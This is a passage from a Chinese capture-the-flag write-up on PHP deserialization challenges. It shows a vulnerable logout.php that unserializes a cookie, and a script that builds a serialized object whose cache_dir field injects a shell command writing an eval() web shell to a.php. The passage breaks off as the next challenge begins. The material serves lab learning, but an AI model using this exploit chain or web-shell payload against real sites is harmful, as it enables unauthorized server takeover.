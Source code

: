 config.php

```php
class config{
	public $cache_dir = 'cache';
}
```

在logout.php中可以利用：

```php
<?php

$service = unserialize(base64_decode($_COOKIE['service']));
if($service){
	$service->clearCache();
}

?>
```

 构造：

```php
<?php
class config{
	public $cache_dir = ';echo  "<?php eval(\$_POST[1]);?>" >a.php;';//linux的shell里面$有特殊意义所以转义一下。

}
class dao{
	private $config;
	public function __construct(){
		$this->config=new config();
	}

}
$a=new dao();
echo base64_encode(serialize($a));
?>

```





### web308

> 需要拿shell

![image-20230523095520572](https://raw.githubusercontent.com/leekosss/photoBed/master/202305230955633.png)

这一题`clearCache()`过滤了很多，我们放弃





我们在`fun.php`中发现：
